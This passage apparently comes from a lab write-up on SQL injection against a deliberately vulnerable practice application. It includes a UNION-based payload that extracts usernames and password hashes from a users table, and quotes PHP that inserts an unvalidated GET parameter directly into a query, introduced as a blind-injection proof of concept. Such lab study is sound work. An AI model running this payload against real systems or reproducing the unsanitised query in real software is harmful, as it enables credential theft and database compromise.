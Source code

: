 Since `$id` is not validated by any way, we can simply add whatever we want to this.
SQL language have function called `UNION` which is used to combine results of two `SELECT` into one. \
Let' s try provide following code:
```sql
1' UNION ALL SELECT user, password FROM users WHERE '1'='1
```
And it give us following results:

![](resources/sqli_exploited.png)

Where `first_name` is username and `Surname` is hashed password.

### Blind SQL Injection Proof of Concept
Blind SQL Injection vulnerability may exist in scripts that are returning `true` or `false` from SQL Queries.
```php
$id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
```
